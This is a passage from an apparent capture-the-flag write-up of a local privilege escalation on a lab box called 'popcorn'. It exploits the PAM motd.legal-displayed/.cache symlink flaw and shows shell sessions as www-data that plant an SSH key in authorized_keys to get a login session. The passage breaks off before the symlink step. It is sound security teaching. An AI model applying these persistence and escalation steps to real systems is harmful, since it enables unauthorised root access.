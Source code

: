 `motd.legal-displayed`. It’s currently empty, but it caught my interest because these kinds of files can lead to code execution because they are typically executed when a new session starts. Googling for “motd.legal-displayed privesc” returned an [Exploit-DB exploit](https://www.exploit-db.com/exploits/14339).

### Manual Exploit

#### Background

The script above is actually very well done and quite slick. I’ll show that at the end. But I wanted to understand the vulnerability. There isn’t a ton of detailed explanation on the web, but from reading the exploit script, the vulnerability is in how the `~/.cache` directory permissions are set when a user logs in (invokes the PAM module). My reverse shell didn’t trigger that because it isn’t a login. But I can use SSH to login by writing a key. Then, what the exploits do is remove the `~/.cache` directory, and replace it with a symbolic link to a file. Then, on logging in, that file will be owned by my user.

#### SSH as www-data

I can’t delete the `~/.cache` directory in george’s home directory because the `motd.legal-displayed` file is owned by george and not writable:

```

www-data@popcorn:/home/george$ rm -rf .cache/
rm: cannot remove `.cache/motd.legal-displayed': Permission denied
www-data@popcorn:/home/george$ ls -l .cache/motd.legal-displayed 
-rw-r--r-- 1 george george 0 Mar 17  2017 .cache/motd.legal-displayed

```

I can do this in the `www-data` directory. I’ll just need a way to log in. I’ll create a `.ssh` directory in www-data’s home directory, and generate an RSA key pair:

```

www-data@popcorn:/home/george$ cd ~
www-data@popcorn:/var/www$ mkdir .ssh
www-data@popcorn:/var/www$ ssh-keygen -q -t rsa -N '' -C 'pam'
Enter file in which to save the key (/var/www/.ssh/id_rsa): 
www-data@popcorn:/var/www$ ls .ssh/
id_rsa  id_rsa.pub

```

I’ll copy the public key into `authorized_keys` and set the permissions:

```

www-data@popcorn:/var/www$ cp .ssh/id_rsa.pub .ssh/authorized_keys
www-data@popcorn:/var/www$ chmod 600 .ssh/authorized_keys 

```

Now there isn’t a `.cache` in `/var/www`:
